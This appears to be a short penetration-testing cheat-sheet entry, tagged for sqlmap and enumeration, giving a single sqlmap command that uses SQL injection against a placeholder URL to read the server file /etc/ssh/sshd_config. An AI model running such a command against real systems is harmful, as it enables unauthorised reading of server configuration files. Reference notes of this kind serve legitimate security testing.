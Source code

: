 # Linux

Search Tag(s): #sqlmap #enumeration-and-discovery

## Automated

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/ssh/sshd_config"
```